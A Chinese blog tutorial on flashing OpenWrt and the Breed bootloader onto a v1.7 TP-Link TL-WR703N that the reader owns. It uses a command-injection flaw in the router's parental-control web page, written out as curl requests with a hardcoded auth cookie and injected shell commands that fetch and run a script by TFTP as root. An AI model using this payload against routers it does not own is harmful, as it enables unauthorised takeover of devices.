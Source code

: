 ```yaml
---
layout: post
title: 给 v1.7 版本的 TL-WR403 刷 openwrt
key: 2018-03-17-wr703n-openwrt

---       
```

从硬件版本 v1.7 起, WR703N 不再支持直接通过 TP-Link 官方 Web 控制台直接刷入 OpenWrt. TP-Link 更改了 U-boot 的代码, 并且禁止了通过官方控制台刷入 OpenWrt 等非官方固件的方式. 因此唯一的刷入方式只剩下拆机后通过串口刷入. 但我们还有一种方式, 那就是通过利用 Web 服务的一些漏洞, 将我们的代码注入到路由器操作系统内并且以 root 权限执行, 从而达到刷机的目的. 刷入 OpenWrt 之后, 我们就可以自己刷入不死 U-Boot, 之后就可以随意折腾了.     
<!--more-->
## 基本流程      
准备工作 -> 编写脚本 -> 利用漏洞上传并执行 -> 脚本通过 TFTP 下载 busybox 和镜像, 执行 busybox 刷写 kernel 和 rootfs 分区 -> 利用刷入的 OpenWrt 安装 Breed -> 完成     
 
## 需要准备的文件
- 一个 TP-Link TL-WR703N 路由器，确保固件版本为 3.17.1 Build 140120 Rel.56593n
- TL-WR703N 的 openwrt 固件 [openwrt-ar71xx-generic-tl-wr703n-v1-squashfs-factory.bin](https://archive.openwrt.org/snapshots/trunk/ar71xx/generic/openwrt-ar71xx-generic-tl-wr703n-v1-squashfs-factory.bin)
- cURL
- TFTP 服务器 (Windows 可以使用 [tftpd32](http://tftpd32.jounin.net/tftpd32_download.html))
- busybox 1.16.1 MIPS 版 [busybox-mips](https://busybox.net/downloads/binaries/1.16.1/busybox-mips)
- Breed Bootloader [Breed 主页](http://www.right.com.cn/forum/thread-161906-1-1.html)  [breed-ar9331-r1163.bin](https://breed.hackpascal.net/EOL/breed-ar9331-r1163.bin)
- 解锁了 u-boot 分区的 OpenWrt 固件 [owrt-703n-uboot.bin](/content/files/2018/owrt-703n/owrt-703n-uboot.bin) 来自 [TP-LINK 全系列解锁 U-Boot 分区固件](http://www.right.com.cn/forum/thread-142763-1-1.html)

## 步骤
### 准备工作
1. 连接路由器的网线接口到电脑, 确认版本与本文是否一致, 并在系统设置中将路由器恢复出厂设置.     
2. 将 ```busybox-mips``` 重命名为 ```busybox    ```
3. 将电脑 IP 地址设置为静态 (本文中为 192.168.1.9)     

### 分割分区
首先, 利用 ```dd``` 将固件 bin 文件分为 kernel 和 rootfs 两个分区
```
dd if=openwrt-ar71xx-generic-tl-wr703n-v1-squashfs-factory.bin of=i1 bs=1 count=1048576

dd if=openwrt-ar71xx-generic-tl-wr703n-v1-squashfs-factory.bin of=i2 bs=1 skip=1048576
```
得到 i1 和 i2 两个文件
### 编写 shell 脚本
创建一个名为 ```aa``` 的文件 (文件名可随意), 写入如下内容:
```
cd /tmp
tftp -gl i1 192.168.1.9
tftp -gl i2 192.168.1.9
tftp -gl busybox 192.168.1.9
chmod 755 busybox
./busybox dd if=i1 of=/dev/mtdblock1 conv=fsync
./busybox dd if=i2 of=/dev/mtdblock2 conv=fsync
./busybox reboot -f
```
其中 192.168.1.9 为本机的 IP 地址.    
**注意:** 如果在 Windows 下, 请将编辑器的换行符设置为 Unix 格式 (LF), 或直接下载 [aa](/content/files/2018/owrt-703n/aa)

### 设置 TFTP 服务器
现在应该有四个文件: ```i1, i2, aa, busybox```. 将这四个文件放在同一个目录下, 并且启动 TFTP 服务器, 将服务根目录指向这四个文件所在的目录. 具体方法可自行搜索, 这里不再赘述.

### 利用漏洞上传 shell 并执行
```
curl -o - -b "tLargeScreenP=1; subType=pcSub; Authorization=Basic%20YWRtaW46YWRtaW40Mg%3D%3D; ChgPwdSubTag=true" "http://192.168.1.1/"

curl -o - -b "tLargeScreenP=1; subType=pcSub; Authorization=Basic%20YWRtaW46YWRtaW40Mg%3D%3D; ChgPwdSubTag=" --referer "http://192.168.1.1/userRpm/ParentCtrlRpm.htm" "http://192.168.1.1/userRpm/ParentCtrlRpm.htm?ctrl_enable=1&parent_mac_addr=00-00-00-00-00-02&Page=1"

curl -o - -b "tLargeScreenP=1; subType=pcSub; Authorization=Basic%20YWRtaW46YWRtaW40Mg%3D%3D; ChgPwdSubTag=" --referer "http://192.168.1.1/userRpm/ParentCtrlRpm.htm?Modify=0&Page=1" "http://192.168.1.1/userRpm/ParentCtrlRpm.htm?child_mac=00-00-00-00-00-01&lan_lists=888&url_comment=test&url_0=;cd%20/tmp;&url_1=;tftp%20-gl%20aa%20192.168.1.9;&url_2=;sh%20aa;&url_3=&url_4=&url_5=&url_6=&url_7=&scheds_lists=255&enable=1&Changed=1&SelIndex=0&Page=1&rule_mode=0&Save=%B1%A3+%B4%E6"

```
执行第一二句的时候可能会报错误, 忽略即可. 第三条命令中, 如果 aa 的文件名和本机的 IP 地址与本文不同, 请自行替换掉对应的文件名 / IP.      
**注意: 执行完第三条命令后, 如果成功, TFTP 服务器会显示路由器正在从服务器中下载文件, 传输完成后路由器的 LED 灯将开始闪烁. 此时千万不要断开路由器的电源, 否则就只能拆机 TTL 刷机了**      
当 LED 灯停止闪烁后, 打开 http://192.168.1.1 , 应该会看到熟悉的 OpenWrt 登陆界面
### 刷入 Breed 
由于原版的 OpenWrt 禁止了对 u-boot 分区的写入, 因此我们首先需要刷入解锁固件 ```owrt-703n-uboot.bin```    
通过 LucI 界面登录路由器, 在系统升级中更新固件为解锁版 OpenWrt, 注意不要勾选保存原有设置的选项.    
等待刷入完成后, 登陆管理界面并设置密码以开启 SSH.    
开启 SSH 后, 使用 WinSCP (或其他软件) 连接到路由器, 将 ```breed-ar9331-r1163.bin``` 上传到 ```/tmp``` 目录下     
然后开始刷入 breed:
```
cd /tmp

mtd -r write breed-ar9331-r1163.bin 
```
刷入完成后会自动重启, 重启完毕后将路由器断电, 按住 Reset 按钮接通电源, 等待 LED 灯开始闪烁, 松开 Reset 进入 http://192.168.1.1 , 应该就可以看到 Breed 的界面了.     
进入 Breed 后, 记得将 MAC 地址改回路由器背面所写的 MAC 地址.     
最后, 为了安全起见, 建议用 breed 重新刷回原版 OpenWrt 固件, 以防不小心写坏 U-boot 分区.    

## 参考文章
[Flashing TP-Link TL-WR703N v1.7 to OpenWrt](https://www.shadowandy.net/2015/03/flashing-tp-link-tl-wr703n-v1-7-to-openwrt.htm)      
[找到国外牛人给出的不通过TTL刷openwrt到1.7版本的703n的方法](http://www.right.com.cn/forum/forum.php?mod=viewthread&tid=159078)      
[tplink tl-wr703n v1.7最新固件 免ttl刷openwrt刷breed](http://www.right.com.cn/forum/forum.php?mod=viewthread&tid=184971)      
